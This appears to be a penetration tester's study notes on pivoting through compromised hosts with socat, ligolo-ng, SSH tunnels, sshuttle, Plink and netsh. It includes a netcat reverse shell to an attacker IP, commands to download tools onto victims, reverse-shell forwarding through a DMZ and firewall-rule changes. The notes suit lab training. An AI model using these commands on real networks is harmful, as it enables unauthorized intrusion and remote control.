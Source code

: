 ```yaml
---
layout: blank
pagetitle: Port Redirection and SSH Tunneling
---
```


## Port Forwarding

**Upgrading terminal**
- Might need to run `python3 -c 'import pty; pty.spawn("/bin/sh")'` to upgrade terminal

**Port Redirection and Tunneling examples**
- Port redirection (a type of forwarding): take traffic from one socket and passing it to another
- Tunneling: Encapsulating one type of data inside another (like HTTP inside SSH)
- **How do you know when to port forward?**
	- Once inside a box, use `ip addr`, `ipconfig`, and `ip route` to find connected subnets
	- Then, use scripts like `for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done` to find open ports (a basic nmap for linux)
		- Use ``1..254|%{$ip="172.16.50.$_";$p=445;$t=New-Object Net.Sockets.TcpClient;$r=$t.BeginConnect($ip,$p,$null,$null);if($r.AsyncWaitHandle.WaitOne(1000)){try{$t.EndConnect($r);Write-Host "$ip`:$p open"}catch{}}else{Write-Host "$ip`:$p closed"};$t.Close()}`` for powershell

**Port forwarding with Linux**
- Useful in situations where we need to access an internal server through a DMZ machine we own
- One way of doing this is starting a verbose (-ddd) Socat process listening on some port and forwarding traffic to the internal IP
	- `socat -ddd TCP-LISTEN:{External_Port},fork TCP:{Internal_IP}:{Internal Port}`
- Can also use *rinetd*, netcat + FIFO named pipe, or *iptables* if we have root

## Ligolo-ng
- Grab latest proxy and agent: https://github.com/nicocha30/ligolo-ng/releases/
  - Proxy file for kali and an agent file for the DMZ machine
- Setup on kali (create tun interface):
	- `sudo ip tuntap add user kali mode tun ligolo`
	- `sudo ip link set ligolo up`
	- `./kali-proxy -selfcert`
		- This will return a port
- (Windows) agent:
	- `ligolo-agent.exe -connect {kali_IP}:{kali_port} -ignore-cert`
	- This program won't exit
- Join a session: `session`, then specify session number
- Adding a pivot (After grabbing network information from client and session running):
	- On kali: `sudo ip route add {ipconfig_IP}/{mask} dev ligolo`
		- Make sure the final IP portion, in front of the mask, is 0 (otherwise `ip` will get mad)
	- Within DMZ session on ligolo: `start`
- Now, we should literally have access to internal machines as though Kali was in the network
- Reverse shell from internal machine -> DMZ -> kali:
	-  `listener_add --addr 0.0.0.0:1338 --to 127.0.0.1:{kali_listening_port}`
		- This created a listener on the DMZ machine on port 1338 to forward all traffic to kali on port 4444
	- Then, we send reverse shells to port 1338 on the DMZ machine, rather than our kali IP
- File upload to internal machine:
	- `python -m http.server` on kali
	- `listener_add --addr 0.0.0.0:1339 --to 127.0.0.1:8000`
		- Forwarding all traffic that reaches DMZ on 1339 to kali on 8000
	- Now, we `iwr/wget {DMZ_IP}:1339/{file}`
	
## SSH Tunneling
- Can also be referred to as "SSH Port Forwarding"
- SSH was designed to securely transmit traffic, so it was used initially for a lot of tunneling

**SSH Local Port Forwarding**
- Done with SSH's `-L` option
	- Used to forward incoming traffic on the current machine from the machine we SSH INTO to another machine
	- `ssh -N -L 0.0.0.0:{current_machine_inbound_port}:{2nd_hop_forwarding_IP}:{forwarding_port} {username}@{intermediary_machine_IP}`
		- `0.0.0.0` just means listening on all interfaces
		- `-N` just means don't show output, so we only see forwarding-related stuff
	- Basically, we are in the network-facing machine. We want to forward traffic from one-hop to two-hops away to an arbitrary port, so we ssh from the pwned box into the one-hop box with the port-forwarding info. The info states that our port (in the example, 4455) will accept incoming connections (e.g. outside the network), send those along ssh, and then ssh on the one-hop machine will forward the traffic to the two-hop machine's port specific in the ssh-command. jeez

**SSH Dynamic Port Forwarding**
- Useful when we want to do more than a 1:1 port forward
	- This basically allows us to shift our commands one machine down
- OpenSSH uses a SOCKS proxy server port to listen, enabling this technique
- Uses the `-D` option
- Usage: `ssh -N -D 0.0.0.0:{inbound_port} {username}@{IP}`
	- This opens 9999 on the internet-facing machine that we control and tells it to accept and forward SOCKS traffic, as shown below
- Then, use *ProxyChains* to communicate over SOCKS
	- Edit `/etc/proxychains4.conf`, putting "socks5 {IP} {port} at the end"
		- This IP and port are the entrance to the internal network that we control
	- `proxychains {command} -L //{IP}/ -U {username} --password={password}`
		- `{command}` could be anything, like `smbclient` or `nmap`
		- The SOCKS traffic would be forwarded to the IP from the machine ssh'd into

**SSH Remote Port Forwarding**
- It's basically using an SSH tunnel's egress traffic to send commands through the client
- Useful when firewalls are getting in the way (e.g. can't ssh in/open new ports)
	- Thus, we set up an SSH server on OUR machine and bind the listening port to the loopback interface
		- Will need to run `sudo systemctl start ssh`
		- This does mean that we're giving the compromised machine our LITERAL credentials, so it might be good to create a new user lmfao
	- This means that packets sent are pushed through the SSH tunnel back to the compromised DMZ machine
- Uses the `-R` option, run from compromised DMZ machine
- Example: listening on 2345 on Kali and forwarding traffic to the 1-hop internal machine
	- `ssh -N -R localhost:{2345}:{internal_1hop_IP}:{internal_1hop_port} username@{kali_IP}`
- Traffic can then be sent to the machine by sending traffic to that port on localhost
	- Example: `psql -h localhost -p {2345} -U {username}`

**SSH Remote Dynamic Port Forwarding**
- Remote, and forwards traffic based on where they're addressed
- Example running on 9998:
	- `ssh -N -R 9998 kali@{kali_IP}`
	- Then, in `/etc/proxychains4.conf`:
		- `socks5 127.0.0.1 9998`
	- `proxychains {command with internal 1-hop IP as target}`
		- `proxychains nmap {internal_IP}`

**Using sshuttle**
- Basically turns SSH into a VPN
- First, port forward in traffic on the pwned machine on a certain port
	- For example, use Socat to allow inbound traffic on 2222, forward it to new machine (whose credentials we know) on port 22, since we're ssh'ing into that machine
- Then, `sshuttle -r {user}@{pwned_target_IP}:{pwned_target_port} {subnet1} {subnet2}`
	- The subnets are ones that we require access to from the pwned machine
- Then, we can just make requests to hosts in the subnet
	- For example, `nmap {private_IP}`

## Port Forwarding with Windows Tools

**Using SSH on Windows**
- Pretty much the same, as it's OpenSSH - comes bundled with Windows after 2018
- Remote Dynamic port forward:
	- Same as linux `ssh -N -R {kali_port} kali@{kali_IP}`
	- Modify kali `/etc/proxychains4.conf` to have `socks5 127.0.0.1 {kali_ssh_port}`
	- Then, same as before, use `proxychains` with commands and internal IPs passed

**Plink**
- OpenSSH might not be on Windows, so Plink might be used instead
- This is used for bypassing a firewall INTO the DMZ machine (going from shell to RDP even with RDP port blocked)
- Need netcat on the target, located in /windows-resources/binaries/nc.exe
	- Grab it with `powershell wget -uri {uri}/nc.exe -OutFile {desired_outfile.exe}`
	- Run a shell with `nc.exe -e cmd.exe {kali_IP} {port}`
- Download plink.exe using same command as above ^^
- `plink.exe -ssh -l kali -pw {pass} -R 127.0.0.1:{kali_port}:127.0.0.1:{port_we_want_to_open_on_DMZ} {kali_ip}`
	- This is basically just ssh'ing into kali to open up a port on the DMZ machine
- Then, for example, `xfreerdp /u:{username} /p:{password} /v:127.0.0.1:{kali_port}`, as the box has SSH'd into kali and is running on kali port, so we can rdp into that

**Netsh**
- Built-in to the firewall, thus should require Administrator
- Assume RDP is open, and we want to go to 1hop internal machine via SSH
- 1st, rdp using `xfreerdp`
- Then, `netsh interface portproxy add v4tov4 listenport={open_port} listenaddress={current_machine_IP_from_kali} connectport={port_of_1hop_machine} connectaddress={1hop_internal_IP}`
	- Need to open {open_port} on the firewall - `netsh advfirewall firewall`
		- `netsh advfirewall firewall add rule name="{any_name}" protocol=TCP dir=in localip={kali_ip} localport={open_port} action=allow`
		- To delete the rule, `netsh advfirewall firewall delete rule "{rule_name}"`
- To delete the port forward, run `netsh interface portproxy del v4tov listenport={open_port} listenaddress={kali_IP}`
- Can verify what is running with `netstat -anp TCP` or `netsh interface portproxy show all`